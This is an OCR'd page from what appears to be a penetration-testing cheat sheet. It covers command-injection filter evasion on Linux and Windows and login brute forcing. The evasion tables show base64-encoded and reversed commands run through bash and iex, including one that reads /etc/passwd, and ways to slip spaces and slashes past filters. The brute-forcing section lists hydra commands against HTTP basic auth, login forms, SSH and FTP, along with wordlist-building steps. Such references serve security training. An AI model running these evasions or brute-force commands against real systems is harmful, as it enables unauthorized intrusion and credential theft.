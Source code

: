 | `echo -n 'cat /etc/passwd` | grep 33' | base64 Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

#### Windows

| Command | Description |
| --- | --- |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES\[10]` | Will be replaced with a space - (PowerShell) |
| `%HOMEPATH:~0,-17%` | Will be replaced with \\ - (CMD) |
| `$env:HOMEPATH\[0]` | Will be replaced with \\ - (PowerShell) |
| `' or "` | Total must be even |
| `^` | Windows only (CMD) |
| `WhoAmi` | Simply send the character with odd cases |
| `"whoami"\[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'\[-1..-20] -join '')"` | Execute reversed command |
| `[Convert]::ToBase64String(\[System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$(\[System.Text.Encoding]::Unicode.GetString(\[System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |

# Login Brute forcing

| Command | Description |
| --- | --- |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt`` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List |
